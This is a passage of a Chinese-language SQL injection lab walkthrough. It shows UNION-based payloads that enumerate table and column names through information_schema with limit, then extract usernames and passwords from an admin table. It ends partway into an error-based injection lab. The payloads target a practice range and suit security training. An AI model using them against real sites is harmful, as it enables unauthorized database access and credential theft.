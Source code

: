 回显点已经显示了库中第一张表，**正好是`admin`**，可见管理员信息就在其中。

不过我们不打算收手，因为很明显这个回显点只会输出一条信息，我们如果想要知道所有的表明，就要用到`limit`语句了。

```mysql
... limit n,m =>从n开始向下取m条数据
... limit 0,1 =>从0开始向下取1条数据 =>取第一条数据
... limit 1,1 =>从1开始向下取1条数据 =>取第二条数据
... limit 0,2 =>从0开始向下取2条数据
```

依次取表名后得到以下结果

| information_schema.tables |
| :-----------------------: |
|           admin           |
|           dirs            |
|           news            |
|            xss            |

到了这一步，数据库中所有的表名我们都掌握了。我们接下来要做的就是查询指定表中的每列信息，这里使用的是`column_name`,这同样包含在`information_schema.columns`里，例如

```mysql
... UNION SELECT 1,column_name from information_schema.columns where table_name='admin' and table_schema=database()
```

此时可见页面回显点显示了第一列标签:`Id`,那么我们继续使用`limit`检索其他列

```mysql
... limit 0,1 =>Id
... limit 1,1 =>username
... limit 2,1 =>password
... limit 3,1 =>不显示，证明admin表只有3列
```

好了，到此为止我们表名，字段名全部收集完成了，可以执行以下语句

```mysql
... UNION SELECT 1,username from admin //获取用户名
... UNION SELECT 1,password from admin //获取密码
```

这个靶场就打下来了。

### 0b010 显错注入专项靶场

1. 先通过布尔运算报错确定是否存在SQL注入。当1=1时，条件为真，页面返回结果正常；当1=2时，条件为假，页面返回结果异常；

   ![1.png](https://i.loli.net/2020/11/02/evMmzAKrWin2jZk.png)
   ![2.png](https://i.loli.net/2020/11/02/VQkjDIC9ABELlfH.png)

2. 猜解当前页面的字段数 。
